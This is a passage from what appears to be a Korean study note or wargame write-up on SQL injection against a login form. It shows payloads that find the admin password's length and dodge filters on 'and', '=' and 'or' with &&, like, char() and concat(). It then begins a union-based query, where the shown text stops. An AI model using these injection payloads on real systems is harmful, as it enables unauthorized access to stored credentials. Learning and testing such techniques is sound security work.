 ### 비밀번호 길이 알아내기

---

```sql
admin' and length(password) = 1 #
```

비밀번호를 알아내기 위한 기본 쿼리

|

```sql
admin' && length(password) like 1 #
```

`and`와 `=`를 우회하도록 수정된 쿼리

하지만 `password`의 `or`로 인해 막힘

|

```sql
admin' && length("passw"+char(111)+"rd") like 1 #
```

```sql
admin' && length(concat("passwo","rd")) like 8 #
```

`‘or’`을 우회하기 위해 위와 같이 시도하면 `‘password’`문자열 자체의 길이로 인식함

|

```sql
-- as 사용 예
select password as pw from user
```

 `password`열의 별칭을 `pw`로 지정

해결 방법은 `user 테이블`의 `password 열`의 이름 자체를 바꾸는 것임. 정확히는 별칭을 부여하는 것

하지만 위 예시처럼 `password`라는 열 이름 자체를 입력할 수는 없기 때문에 **union**을 활용해야 함

|

|

### 쿼리 작성

---

```sql
' union select 1,2,3 #
```

`union`을 사용해 새 쿼리를 작성하기 위한 준비.
